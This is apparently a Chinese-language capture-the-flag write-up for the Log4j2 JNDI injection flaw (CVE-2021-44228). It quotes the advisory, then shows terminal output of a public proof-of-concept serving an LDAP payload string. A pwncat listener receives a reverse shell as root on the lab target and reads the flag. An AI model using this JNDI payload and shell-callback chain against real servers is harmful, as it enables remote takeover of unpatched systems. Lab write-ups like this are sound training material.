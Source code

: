 # CVE-2021-44228

:::info

Tags

- Apache Log4j2 lookup JNDI 注入漏洞

官方数据库记录

> Apache Log4j2 2.0-beta9 到 2.15.0（不包括安全版本 2.12.2、2.12.3 和 2.3.1）配置、日志消息和参数中使用的 JNDI 功能不能防止攻击者控制的 LDAP 和其他 JNDI 相关端点。 当启用消息查找替换时，可以控制日志消息或日志消息参数的攻击者可以执行从 LDAP 服务器加载的任意代码。 从 log4j 2.15.0 开始，此行为已默认禁用。 从版本 2.16.0（以及 2.12.2、2.12.3 和 2.3.1）开始，此功能已被完全删除。 请注意，此漏洞特定于 log4j-core，不会影响 log4net、log4cxx 或其他 Apache 日志服务项目。

:::

直接使用 [kozmer/log4j-shell-poc: A Proof-Of-Concept for the CVE-2021-44228 vulnerability.](https://github.com/kozmer/log4j-shell-poc) 进行攻击

```bash
root@jmt-projekt:~/log4j-shell-poc# python3 poc.py --userip 139.*.*.* --webport 8080 --lport 9999

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://139.*.*.*:1389/a}
[+] Starting Webserver on port 8080 http://0.0.0.0:8080

Listening on 0.0.0.0:1389
```

然后建立一个监听器，将 `${jndi:ldap://139.*.*.*:1389/a}` 传输到靶机上执行，即可收到回连的 shell

```bash
root@jmt-projekt:~# pwncat-cs -lp 9999
[16:56:09] Welcome to pwncat 🐈!                                                                                                                                                                 __main__.py:164
[16:56:24] received connection from 39.106.20.178:38887                                                                                                                                               bind.py:84
[16:56:26] 0.0.0.0:9999: upgrading from /bin/dash to /bin/bash                                                                                                                                    manager.py:957
[16:56:27] 39.106.20.178:38887: registered new host w/ db                                                                                                                                         manager.py:957
(local) pwncat$ back
(remote) root@engine-2:/usr/local/tomcat# whoami
root
(remote) root@engine-2:/# cat /flag
flag{d23fe301-6f8f-4210-831a-96352d07d4c1}
```
